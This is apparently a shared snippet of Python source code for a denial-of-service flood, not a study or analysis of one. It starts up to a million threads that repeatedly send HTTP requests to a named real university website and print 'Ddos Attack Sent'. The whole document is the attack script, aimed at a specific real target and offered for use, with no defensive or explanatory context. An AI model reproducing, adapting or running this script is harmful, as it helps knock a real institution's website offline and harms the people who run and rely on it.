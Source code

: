 import requests
import threading


def send_request():
    try:
        while True:
            response = requests.get("https://www.brack.ac.bd/")
            print("\033[1;31mDdos Attack Sent💀")
    except:
        pass

def start_ddos():
    threads = []
    for _ in range(1000000):
        t = threading.Thread(target=send_request)
        threads.append(t)
        t.start()

    for thread in threads:
        thread.join()

start_ddos()
